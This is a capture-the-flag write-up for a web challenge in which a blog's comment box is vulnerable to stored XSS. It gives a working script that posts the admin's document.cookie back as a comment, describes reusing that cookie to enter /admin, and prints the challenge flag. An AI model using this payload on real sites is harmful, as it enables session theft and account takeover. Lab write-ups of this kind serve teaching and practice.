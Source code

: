 # XSS - Easy
Category: Web

## Description
We've built a new blog app!

Can you get the flag from the admin user? He's logged on right now

## Write-up
- Upon entering the blog environment, we noticed a link to an admin control panel and a comment box for the blog post.
- We published a comment and observed that the admin accesses the page and also leaves a comment whenever we make comments on the blog.
- Through a quick test using a simple payload like `<script>alert(1)</script>`, we discovered that the comment box is vulnerable to stored XSS.
- Our task is to exploit this vulnerability in order to have the admin access the page and execute our XSS payload. This will enable us to make a new comment request which include their cookie on their behalf.
- An example of the payload is:
```
<script>
    let formData = new FormData();
    formData.append('name', 'testing');
    formData.append('comment', document.cookie);
    fetch('/new-comment', { method: "POST", body: formData});
</script>
```
- After we submit our payload, we can refresh our page and view the admin's cookie in one of the blog post's comments.
- We then override our own cookie with the admin's cookie.
- After successfully accessing `/admin` with the admin's cookie, we can see the flag.

Flag: `punk_{TMYJ77I275YCKC12}`
